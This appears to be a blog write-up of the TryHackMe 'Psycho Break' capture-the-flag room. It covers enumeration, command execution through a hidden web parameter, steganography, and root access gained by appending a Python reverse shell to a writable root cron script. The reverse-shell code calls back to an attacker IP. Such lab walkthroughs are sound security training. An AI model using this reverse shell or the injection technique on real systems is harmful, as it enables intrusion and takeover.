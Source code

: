 ```yaml
---
layout: post
title: Psychobreak
date: 2020-11-14 19:00:00 +0000
categories: [Tryhackme, Easy]
tags: [thm]
---
```



Psycho Break is a TryHackMe room which is based on the video game “The Evil Within”. The objective is to get the user flag and the root flag.

![cover image](/assets/img/tryhackme/psychobreak/1.png)

**Author** | Shafdo
**Description** | Help Sebastian and his team of investigators to withstand the dangers that come ahead

Deploy the VM and let’s go…

First up is enumeration

## Task 1

![nmap](/assets/img/tryhackme/psychobreak/3.png)
<p>A simple nmap scan would give the answers to the first task. So I tried to login to the ftp service. Anonymous login is not enabled in ftp service. So let’s move on to http.</p>


## Task 2

![http_service](/assets/img/tryhackme/psychobreak/4.png)
<p> In the source page we can find the room name. Let’s go into the room.</p>

![Sadist_room](/assets/img/tryhackme/psychobreak/5.png)
<p>We can get the key to the locker room by clicking the given link. But wait… seconds after clicking the link the the background changes and a alert box asking for the key pops up.</p>

![Sadist_room2](/assets/img/tryhackme/psychobreak/6.png)
<p>After entering the key, we can see the locker room page. After looking at the link to the map, it seems we need to decode the piece of text to get the map.</p>

![Locker_room](/assets/img/tryhackme/psychobreak/7.png)
<p>At first I thought it was rot13 encoded but I was wrong. Go the link [vigenere-solver](https://www.guballa.de/vigenere-solver) and choose the correct variant given in the image to decode the text</p>

![decode](/assets/img/tryhackme/psychobreak/8.png)
<p>After decoding, enter the decoded text to get access to map. Let’s move on to the next room…</p>

![Safe_haven](/assets/img/tryhackme/psychobreak/11.png)
<p>In the source code of the page we can find a hint.<p>

![Safe_haven_hint](/assets/img/tryhackme/psychobreak/12.png)
<p>I had a hard time in this part. I tried enumerating using various methods but it took me more than a hour to finally find this.</p>

<pre>gobuster dir -u http://<ip-address>/ -w /usr/share/dirb/wordlist/medium.txt -x php,txt,js,html -t 100</pre>

<p>use gobuster with the medium wordlist to find the hidden directory.</p>

![The_keeper](/assets/img/tryhackme/psychobreak/14.png)
<p>After clicking on the link we are redirected to another page.</p>

![Save_yourself](/assets/img/tryhackme/psychobreak/15.png)
<p>A simple google image search would tell the answer right away. And we’ll get the keeper’s key. So let’s go to the final room given in the map.</p>

![Abandoned_room](/assets/img/tryhackme/psychobreak/18.png)
<p>After clicking on the link, it redirects to another page.</p>

![Spiderlady](/assets/img/tryhackme/psychobreak/19.png)
<p>After looking at the source page, I found a hint which told that the keyword *“shell”* would be useful. So, I tried appending it to the end of the url but there was no response. Finally, after setting it with value, it responds….</p>

<pre>http://<ip-address>/abandonedRoom/be8bc662d1e36575a52da40beba38275/herecomeslara.php?shell=ls ..</pre>

![dir_list](21.png)
<p>I downloaded the two files after moving into the other directory that was returned in the response.</p>

## Task 3

<p>The text file is just a message so I extracted the zip file. Extract the contents of the image file using binwalk since it was corrupted.</p>

<pre>binwalk -e image.jpg</pre>
<p>After listening to the .wav file I found that it was morse code. So, I decrypted using [Morse Decoders](https://morsecode.world/international/decoder/audio-decoder-expert.html).</p>

![sound_file_decryption](/assets/img/tryhackme/psychobreak/27.png)
<p>Using the message that is decrypted  to extract the contents of the other image file with steghide.</p>

<pre>steghide --extract -sf image_file.jpg</pre>
<p>The text file gives the ftp credentials. Let’s login to ftp…</p>

![FTP_creds](/assets/img/tryhackme/psychobreak/28.png)

## Task 4

<p>I found two files in the ftp server and I downloaded using the get command.</p>

<pre>get file-name</pre>
![program](/assets/img/tryhackme/psychobreak/30.png)

<p>After running the program file I found that it takes a word as a argument. So, I ran the bash script.</p>

```
for i in $(cat list.dic);
do
./program $i;
done
```

![program_decryption](/assets/img/tryhackme/psychobreak/31.png)
<p>There is another bunch of numbers given to be decoded. This is multitap phone cipher. It can be cracked using [dcode]().</p>


## Task 5

<p>The decoded text is the SSH password. Without further wait, let’s login to ssh.</p>

![ssh_login](/assets/img/tryhackme/psychobreak/34.png)
<p>We found the user.txt in the home directory and some other hidden files</p>

![ssh_hidden_dirs](/assets/img/tryhackme/psychobreak/35.png)
<p>After reading the .readThis.txt file, it seems there is a file with the name the_eye_of_ruvik. So, I checked the /etc/crontab and I was right, there is a file named .the_eye_of_ruvik.py that runs as root for very 30 secs and whats more is we can edit the file.</p>

<pre>
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.1",4444));os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
</pre>

<p>So, I appended the python reverse shell in the file and opened a netcat listener in my local machine. After a few seconds I got the reverse shell.</p>

![root_flag](/assets/img/tryhackme/psychobreak/39.png)
<p>We also got the root flag.</p>

## Bonus

![bonus_flag](/assets/img/tryhackme/psychobreak/40.png)

<p>The bonus task is to delete the user ruvik</p>

<pre>userdel -r ruvik</pre>
<p> Run this as root</p>

<p>That’s it folks. Happy Hacking!!! :sunglasses: </p>
